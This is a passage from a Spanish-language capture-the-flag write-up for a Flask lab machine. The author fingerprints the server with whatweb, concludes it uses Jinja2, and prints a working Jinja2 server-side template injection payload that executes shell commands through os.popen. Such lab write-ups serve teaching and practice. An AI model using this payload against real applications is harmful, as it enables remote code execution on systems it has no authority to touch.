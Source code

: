 ponemos el comando y damos al save y nos da un caso positivo:

![pingu25.png](assets/pingu25.png)


vemos que podemos inyectar código malicioso con un SSTI, vamos a ver que motor de plantillas usa por detrás la web:

```bash
❯ whatweb 172.17.0.2:5000
http://172.17.0.2:5000 [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], Email[admin@pingulab.lab], HTML5, HTTPServer[Werkzeug/3.0.1 Python/3.12.3], IP[172.17.0.2], JQuery, Python[3.12.3], Script, Title[Pingu Flask Web], Werkzeug[3.0.1]

```

Nos muestra **HTTPServer Werkzeug/3.0.1 Python/3.12.3** busco werkzeug y parece que usa Jinja2, con esta información voy a HackTricks y busco SSTI de jinja2 con python y nos muestra estos ejemplos para Remote Code Executions:

![sstijinja2.png](assets/sstijinja2.png)

```bash
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('whoami').read() }}
```

En mi caso use el segundo ejemplo y en vez de id, use whoami y este fue el resultado:

```bash
Hello pinguinazo !
```
